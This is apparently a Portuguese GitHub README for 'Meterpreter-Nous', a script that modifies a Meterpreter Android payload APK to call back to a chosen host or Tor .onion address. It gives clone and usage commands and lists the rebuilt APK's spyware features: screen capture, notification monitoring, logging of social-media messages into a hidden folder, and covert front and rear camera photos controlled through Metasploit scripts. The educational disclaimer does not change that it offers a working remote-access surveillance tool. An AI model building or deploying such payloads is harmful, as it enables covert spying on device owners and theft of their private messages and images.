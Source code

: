 # **Meterpreter-Nous**  

**Meterpreter-Nous** é um script que modifica e recompila um APK, permitindo configurar conexões dinâmicas com ou sem o uso de Tor.  

---

## **Funcionalidades**  

- Modifica o arquivo `Payload.smali` para definir um novo **host** e **porta**.  
- Suporte a hosts `.onion` para conexões via **Tor**.  
- Compilação automatizada do APK modificado.  

---

## **Requisitos**  

Certifique-se de ter os seguintes componentes instalados:  

- [Python 3.x](https://www.python.org/)  
- [apktool](https://github.com/iBotPeaches/Apktool)  
- [Java](https://www.java.com/)  

---

## **Instalação**  

Clone o repositório e acesse o diretório:  

- git clone https://github.com/mikelkarma/Meterpreter-Nous  
- cd Meterpreter-Nous  
- sh install.sh # Para sistemas Debian  

---

## **Uso**  

Defina o host e a porta diretamente na linha de comando:  

- python nous.py --host <IP ou domínio> --porta <porta> --tor <true/false>  

Exemplos:  

1. Configuração de um host sem Tor:  

   - python nous.py --host 192.168.0.1 --porta 8080 --tor false  

2. Configuração de um host `.onion` com Tor:  

   - python nous.py --host exemplo.onion --porta 8080 --tor true  

---

## **Recursos do APK Modificado**  

O APK gerado possui funcionalidades como:  

- Captura de tela em tempo real.  
- Monitoramento de notificações de aplicativos.  
- Captura de textos exibidos na tela, permitindo registrar mensagens de redes sociais.  
- Armazenamento das mensagens capturadas no diretório `/sdcard/.nous/key.sql`.  
- Captura de imagens da câmera frontal e traseira ao criar os arquivos `web1` e `web2` no diretório `/sdcard/.nous/`, gerando as imagens em `.photo.nous`.  

Os scripts para ativação dessas funções no Metasploit estão disponíveis em `msf-scripts`. Para utilizá-los, copie-os para o seu ambiente e execute:  

- meterpreter> run <script>  

---

## **Aviso Legal**  

Este código é disponibilizado exclusivamente para fins educacionais e de pesquisa.  

- Não há garantias de funcionamento ou segurança.  
- O uso deste código é de responsabilidade do usuário.  
- O autor não se responsabiliza por qualquer uso indevido ou ilegal deste software.  

Utilize este código de maneira ética e dentro dos limites da lei.
